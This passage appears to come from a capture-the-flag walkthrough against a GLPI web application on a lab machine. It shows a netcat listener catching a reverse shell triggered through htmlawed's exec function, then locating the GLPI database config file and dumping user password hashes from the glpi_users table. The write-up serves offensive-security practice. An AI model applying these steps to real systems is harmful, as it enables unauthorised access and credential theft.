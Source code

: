 Now by putting a reverse shell in input parameter and trigger exec function, a reverse shell comes our way


```
└─$ nc -nvlp 777
listening on [any] 777 ...
connect to [10.23.30.45] from (UNKNOWN) [10.10.180.41] 58850
bash: cannot set terminal process group (546): Inappropriate ioctl for device
bash: no job control in this shell
 ______________________________
< Reply hazy, ask again later. >
 ------------------------------
        \   ^__^
         \  (xx)\_______
            (__)\       )\/\
             U  ||----w |
                ||     ||
www-data@space1nvaders:/var/www/glpi/vendor/htmlawed/htmlawed$
``` 

###  Enumeration

First flag found on www-data's home

After some enumeration, /etc/glpi/config_db.php is found. 

```
<?php
class DB extends DBmysql {
   public $dbhost = 'localhost';
   public $dbuser = 'glpi';
   public $dbpassword = '<REDACTED>';
   public $dbdefault = 'glpi';
   public $use_utf8mb4 = true;
   public $allow_myisam = false;
   public $allow_datetime = false;
   public $allow_signed_keys = false;
}
```

### Prove your sql skills

Those credential doesn't work, despite it should; as those are the credentials stored in glpi db config file. 

There's '%3A' in the password, which could be ':' url encoded due to the glpi web install wizard.

Once inside the db let's enumerate the users

`MariaDB [glpi]> select name,password from glpi_users;`
`+-------------+--------------------------------------------------------------+`
`| name        | password                                                     |`
`+-------------+--------------------------------------------------------------+`
`| glpi        | 92253d0aeae0bf04dd5393bc24eded89                             |`
`| post-only   | $2y$10$LTMMupJ4aWeQ5o6ogZ.Ho.xXv8IqWY6kFpjfbkB/ai2rqFkEQT1fa |`
`| tech        | $2y$10$53WXg8nVJ4jyk9FISMnyVOmUZSSYOsZk5MfJ.ZmP4C4aLIDmICXqa |`
`| normal      | $2y$10$mgqaods8toKZOj2XT15JDe9JlhLAsP1EAG1V7Xt23plBUg1Oj.GZS |`
`| glpi-system |                                                              |`
`| jen         | 3ae0d7e4a27c5b479f4b0a93a1a9278e                             |`
`| roy         | 354be8a5a9f70c73f50aba3608b5f92d                             |`
`| maurice     | 190d8af135008847462f6d7b59ad3a24                             |`
`+-------------+--------------------------------------------------------------+`
`8 rows in set (0.001 sec)`
